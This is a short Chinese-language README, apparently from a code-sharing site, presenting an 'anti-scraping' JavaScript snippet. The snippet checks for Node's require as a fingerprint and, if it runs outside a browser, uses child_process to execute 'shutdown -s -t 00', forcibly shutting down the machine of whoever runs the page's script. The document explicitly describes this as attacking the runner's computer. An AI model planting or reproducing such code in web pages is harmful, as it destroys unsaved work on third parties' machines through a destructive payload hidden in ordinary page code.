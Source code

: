 # JS反爬 通过指纹检测让电脑关机


实现原理：浏览器指纹与node指纹的不同，require关键字是node独有的指纹

实现逻辑：如果在浏览器中require关键字会报错，进入catch中，如果在node中，则可以正常执行攻击代码，攻击运行者的计算机

实现代码

```js
try {
    const { exec } = require('child_process');
    function shutdownWindow() {
        let command = exec('shutdown -s -t 00', function(err, stdout, stderr) {
            if(err || stderr) {
                console.log("shutdown failed" + err + stderr);
            }
        });
        command.stdin.end();
        command.on('close', function(code) {
            console.log("shutdown",  code);
        });
    }
    shutdownWindow()
}catch (e){
    document.cookie = "";
}
```


